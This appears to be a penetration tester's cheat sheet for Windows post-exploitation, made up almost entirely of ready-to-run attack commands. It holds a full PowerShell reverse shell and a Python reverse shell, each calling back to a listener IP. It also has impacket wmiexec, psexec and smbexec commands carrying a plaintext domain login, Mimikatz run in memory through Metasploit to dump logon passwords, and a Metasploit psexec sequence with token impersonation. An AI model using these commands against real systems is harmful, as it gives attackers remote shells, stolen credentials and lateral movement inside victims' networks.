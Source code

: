 ##### Powershell #reverseshell 

```powershell
# Powershell reverse shell # Scheduled task for example # powershell -enc <base 64 de la commande> 
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();\ [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;\ 	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);\ 	$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";\ 	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);\ 	$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

##### WMIexec #wmiexec #reverseshell
```bash
wmiexec is less noisy than psexec 
/usr/bin/impacket-wmiexec d.traya@192.168.56.102
```
##### psexec #psexec #reverseshell
```bash 
# psexec # Drosp a binary on the target → Noisy /usr/share/doc/python-impacket/examples/psexec.py GALACTIC/d.traya:triumvirat@192.168.56.102
```
##### smbexec #smb #reverseshell 
```
# smbexec /usr/share/doc/python-impacket/examples/smbexec.py GALACTIC/d.traya:triumvirat@192.168.56.102
```


### Mimikatz in RAM #Mimikatz #reverseshell

`# From MSF (execute Mimikatz in RAM) execute -H -i -c -m -d calc.exe -f /path/to/mimikatz.exe -a  '"privilege::debug" "sekurlsa::logonPasswords full" exit'` 

  

### Metasploit 

`# psexec msf5 > use exploit/windows/smb/psexec msf5 exploit(windows/smb/psexec) > set RHOSTS 10.69.88.100 msf5 exploit(windows/smb/psexec) > set SMBDomain GALACTIC.LAN msf5 exploit(windows/smb/psexec) > set SMBUSER d.traya msf5 exploit(windows/smb/psexec) > set SMBPASS triumvirat msf5 exploit(windows/smb/psexec) > run  # Impersonate user use incognito list_tokens -u impersonate_token <token> shell whoami`

#### Python Windows specific

```python
python.exe -c "import socket,os,threading,subprocess as sp;p=sp.Popen(['cmd.exe'],stdin=sp.PIPE,stdout=sp.PIPE,stderr=sp.STDOUT);s=socket.socket();s.connect(('10.0.0.1',4242));threading.Thread(target=exec,args=(\"while(True):o=os.read(p.stdout.fileno(),1024);s.send(o)\",globals()),daemon=True).start();threading.Thread(target=exec,args=(\"while(True):i=s.recv(1024);os.write(p.stdin.fileno(),i)\",globals())).start()"
```